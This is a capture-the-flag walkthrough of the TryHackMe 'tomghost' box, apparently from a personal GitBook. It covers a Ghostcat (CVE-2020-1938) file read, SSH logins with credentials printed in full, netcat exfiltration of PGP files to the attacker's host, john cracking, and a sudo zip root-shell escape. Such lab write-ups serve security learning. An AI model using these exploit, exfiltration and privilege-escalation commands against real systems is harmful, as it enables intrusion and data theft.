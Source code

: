 # tomghost

### Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Victim**

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git 
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/
python2 CVE-2020-1938.py $VICTIM -p 8009 -f WEB-INF/web.xml
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh skyfuck@$VICTIM
Password: 8730281lkjlkjdqlksalks
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Netcat <a href="#netcat" id="netcat"></a>

**Kali(receiving)**

```
nc -l -p 1234 > credential.pgp
nc -l -p 1234 > tryhackme.asc
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < credential.pgp
nc -w 3 $KALI 1234 < tryhackme.asc
```

**Kali**

```
/opt/john/gpg2john tryhackme.asc > pgp.hash
john pgp.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --import tryhackme.asc 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --decrypt credential.pgp 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation  <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh merlin@$VICTIM
Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

**Exploit:** [https://gtfobins.github.io/gtfobins/zip/](https://gtfobins.github.io/gtfobins/zip/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
